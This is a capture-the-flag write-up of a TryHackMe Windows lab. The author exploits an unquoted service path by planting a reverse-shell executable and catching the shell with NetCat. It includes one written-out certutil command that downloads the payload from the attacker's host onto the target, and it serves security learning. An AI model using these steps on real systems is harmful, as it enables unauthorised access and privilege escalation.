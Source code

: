 ### Introduction
Link: https://tryhackme.com/room/quotient#
Created by: ben, JohnHammond, cmnatic, NightWolf, timtaylor
* * *
### Connecting
Pinging the IP address for this machine does not seem to resolve anything. I had to briefly look at another write-up to see if anyone else had issues. It seems RDP still works so I proceeded to simply connect to it and it worked.

![3cc90c64c1d1ac43d1aef70c73009f4e.png](../_resources/3cc90c64c1d1ac43d1aef70c73009f4e.png)

<p>
  <img height="auto" src="./_resources/3cc90c64c1d1ac43d1aef70c73009f4e.png" title="RDP Connect">
</p>
  
* * *
### Reconnaissance
Right away we can tell that this server is an AWS Instance being hosted in **eu-west-1b** and is a t2.medium EC2 instance. Not crucially important, but interesting to point out.

Let's see what kind of permissions we have as the user "Sage".

![658494285c75fb47f7e816ce2fc218a1.png](../_resources/658494285c75fb47f7e816ce2fc218a1.png)

It looks like we're not very special and only have general access.

![3dadeb6debd6380cdab64b97820bbbaa.png](../_resources/3dadeb6debd6380cdab64b97820bbbaa.png)

Let's have a look around and see what is on this computer. So far the only thing that really stands out is the folder **windows nt**. Normally the **W** would be capitalized, same with **NT**. Not sure why this was deliberately changed, but we will keep it in mind if anything else comes up.

![a0b61d9dd05b25eb245f52e170b292a1.png](../_resources/a0b61d9dd05b25eb245f52e170b292a1.png)

Nothing else stands out withing the folders, maybe we can see what services are running on the machine.

Everything looks normal except for one. It has no description and is misspelled.

![95562cfa26ee77ee2229ff38837c2efb.png](../_resources/95562cfa26ee77ee2229ff38837c2efb.png)

Let's investigate.

![0ada677f68c1d969a7520527e7a983c4.png](../_resources/0ada677f68c1d969a7520527e7a983c4.png)

At this point, I was a bit stuck and not sure how to proceed. Clearly there is something about this service that is meant to be exploited. 

I am learning that it is ok to be stuck, part of PenTesting is research. You are not going to know everything for every engagement and it is important to be able to find the answers we need on an as needed basis.

With the help of Google, I came across this article which seems to fit the exact situation we are in.

**Link:** https://vk9-sec.com/privilege-escalation-unquoted-service-path-windows/#:~:text=When%20a%20service%20is%20created,of%20the%20time%20it%20is).

### Exploitation

So we are dealing with an **Unquoted Service Path**, now the name of the room makes a little more sense.

According to the article above, we should create a payload and drop it into that file path. So let's create that payload.

![69003b3b6fa29e0ca5cd9b402cc1815c.png](../_resources/69003b3b6fa29e0ca5cd9b402cc1815c.png)

Now we need to start a web server on our Kali machine.

![7eed70e4cd3a5000fb4542483de44f67.png](../_resources/7eed70e4cd3a5000fb4542483de44f67.png)

And we need to download the executable from our target machine.

![e2c62b94d766594d957550f4eabbe889.png](../_resources/e2c62b94d766594d957550f4eabbe889.png)

Now, we need to have the machine run that service, but we lack the permissions to start/stop them, so a reboot will be required.

But first, gotta make sure NetCat is listening.

![e57fff9a846ab29bc1461d3146275646.png](../_resources/e57fff9a846ab29bc1461d3146275646.png)

Now, the wait begins...
...
...
...
...
Still nothing, maybe there is an issue with the server?
Server is back up, IP is the same, and the revshell.exe is still there. What went wrong?

Well, as it turns out, it's the name of the .exe. I did not read the article carefully and missed the part where it said that the .exe file needs to be named something similar to what is in the service path, .ie, Devservice.exe.

Let's start over real quick.

![d65e82940e2f358055650fc96fb76da2.png](../_resources/d65e82940e2f358055650fc96fb76da2.png)

That's better.
Now we'll download this on the target machine.

`certutil -urlcache -split -f “http://10.13.27.44:9999/Devservice.exe” Devservice.exe`

And reboot the target machine.
Now we once again wait on NetCat.

...

Got it...

![f314cea54ab81f3928c495244f3b2faa.png](../_resources/f314cea54ab81f3928c495244f3b2faa.png)
* * *
### Post-Exploitation

Time to search for that flag.txt file.

And it looks like it's right on the Admin Desktop.

![b9983bdb900bafc38d417afd67737caa.png](../_resources/b9983bdb900bafc38d417afd67737caa.png)
* * *
### Lessons Learned

READ!!!

I tend to skimp documentation to get to the good stuff, I was in a hurry to try out the exploit without taking my time to actually read how it works. But as they say, failure is a better teacher than success. This will be something that sticks with me.
